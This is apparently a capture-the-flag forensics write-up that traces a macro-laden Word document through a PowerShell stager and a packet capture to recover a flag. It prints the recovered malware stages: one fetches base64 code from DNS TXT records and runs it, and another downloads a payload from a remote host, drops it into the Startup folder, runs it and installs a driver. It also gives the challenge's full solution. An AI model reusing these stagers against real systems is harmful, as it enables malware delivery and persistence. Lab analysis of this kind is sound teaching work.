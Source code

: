 # Intended Solve
## Description
**Meet My Computer Wife Karen**

Mr. Krabs has noticed some weird pop-ups on his computer recently, and he wants you to take a look.

He's particularly worried because Plankton hasn't tried to steal the Krabby patty secret formula for a while. Has he found another way in? 

## Part 1
Go through AD1 image, find a Word document with macros enabled in the Documents directory.  Open it and look for macros.  Find the following macro:

![macro](./1-Images/macro.png)

Reverse flagpart.  I typically just recode short vbs scripts like this into Python, like the following:

```python
def xorFun(data):
    byte = 0x7F
    for i in range(len(data)):
        data[i] ^= byte
        byte = (byte + 5) ^ 105
    return data

print(bytes(xorFun(bytearray([42,160,218,154,244,190,212,137,152,130,186,138]))).decode())
```
This prints part 1 of the flag:
```
UMASS{wH7_1s
```

## Part 2
There is a base64 encoded string being decoded and executed in Powershell as part of the above macro. Extracting the b64 encoded string and decoding it gives the following:
```powershell
$b64 = ""

for ($i=1;$i -le 7;$i++) {
    $temp = (nslookup -q=txt -timeout=3 $i'.americanvegtables.com')[-1] -replace '"','' -replace '\s',''
    $b64 += $temp
};

# _d0cM_57iLL_

iex([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String(($b64))))
```
As you can see, part 2 of the flag is in the comment.

## Part 3
The above script performs a DNS text record lookup for subdomains 1 - 7 of the domain name americanvegtables.com.  It then concatenates all of the text response portions of the record, treats them as a single base64 encoded string, then decodes them and executes the result.

The records are not available on the current americanvegtables.com site, but if we go to the Wireshark and filter by DNS text record lookups, we'll get the following:

![DNS Pic](./1-Images/dns.png)

If you look closer at a response to one of these queries, you'll see what appears to be base64 encoded data.

![b64 DNS](./1-Images/b64dns.png)

Pull all of the text records out of the packet capture then decode them, and you'll get the following powershell script:

```powershell
$downloadURL = "192.168.157.145:8080/money.png"
$content = Invoke-WebRequest $downloadURL

$re = New-Object System.Text.RegularExpressions.Regex("c4fc34f45386d4c98e26")
$stuff = [regex]::Split($content, $re)[1]
$zip = [System.Convert]::FromBase64String($stuff)

Set-Content "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\stuff.zip" -Value $zip -Encoding Byte

Expand-Archive -Path "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\stuff.zip" -DestinationPath "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"

Remove-Item "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\stuff.zip"

Start-Process "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\MoneyGrabber.exe" -NoNewWindow

pnputil.exe /add-driver "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\myDriver.inf" /install

sc.exe start myDriver

Remove-Item "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\myDriver.*"

# Write-Output "4_tH1nG_"
```

## Part 4
We know that the malicious script:
- Downloaded `money.png` from `192.168.157.145:8080`
- Split it along a predefined delimiter
- Base64 decoded the second part of the image
- Unzipped the Base64 part

First go to the packet capture, then find the image download:

![HTTP GET](./1-Images/httpget.png)

Right click on the request, follow the TCP stream, then extract the picture as raw.  You might have to trim it a bit to get the PNG to open, but eventually you'll get a picture that looks like the following:

![Money Picture](./1-Images/money.png)

A quick Python script will repeat the steps of the malicious Powershell script and extract the archive:

```python
from base64 import b64decode

with open('picture.png', 'rb') as fd:
    data = fd.read()

with open('implant.zip', 'wb') as fd:
    fd.write(b64decode(data[data.index(b"c4fc34f45386d4c98e26") + 20:].strip()))
```

Unzipping gets us the following:

![Implant Contents](./1-Images/contents.png)

The fourth part of the flag is in flag4.txt
```
UMASS{wH7_1s_d0cM_57iLL_4_tH1nG_1n_th3_y34r_2024??}
```